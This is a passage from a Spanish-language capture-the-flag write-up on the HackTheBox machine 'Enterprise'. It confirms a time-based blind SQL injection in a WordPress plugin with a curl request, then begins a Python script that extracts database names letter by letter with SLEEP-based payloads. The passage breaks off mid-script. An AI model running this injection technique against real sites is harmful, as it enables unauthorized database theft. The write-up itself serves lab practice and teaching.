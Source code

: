 Validamos de nuevo y asi nos aseguramos:

```bash
❭ time curl -s "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=2%20or%20sleep(0.1);#"
<br />
<b>Catchable fatal error</b>:  Object of class mysqli_result could not be converted to string in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b><br />

real    0m4,657s
...
```

Bien, entonces con esto validamos una explotación SQL basada en tiempo y tenemos una base para probar después, **4 segundos con SLEEP(0.1)**. Creemos un script para jugar con las tablas y extraer info interesante:

### Explotacion SQL injection manual [#](#explotacion-sqli) {#explotacion-sqli}

> Lindo recurso - [MySQL SQL Injection Cheat Sheet](pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet).

```py
#!/usr/bin/python3

import requests
import string
import signal
import time
from pwn import *

# Ctrl + C
def def_handler(sig, frame):
    print("\nInterrupción, saliendo...\n")
    exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php"
result = ""

# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~£
set_chars = string.ascii_letters + string.digits + string.punctuation + "£"

session = requests.Session()

# Hacemos de cuenta que hay 10 bases de datos
p1 = log.progress("Extrayendo bases de datos")
for db_position in range(0,10):
    p2 = log.progress("DB [%d]" % (db_position))
    # Recorremos cada base de datos y vamos descubriendo las letras que componen su nombre
    for word_position in range(1,51):
        # Iteramos entre cada letra del conjunto
        for letter in set_chars:
            # Tiempo antes de la petición
            time_before = time.time()
            payload = "IF(Ascii(substring((SELECT schema_name FROM information_schema.schemata LIMIT %d,1),%d,1))=%d,sleep(0.1),0)" % (db_position, word_position, ord(letter))
            p1.status(payload)

            data_get = {"query" : "1 or " + payload}
            r = session.get(url, params=data_get)

            # Tiempo despues de la petición
            time_after = time.time()
```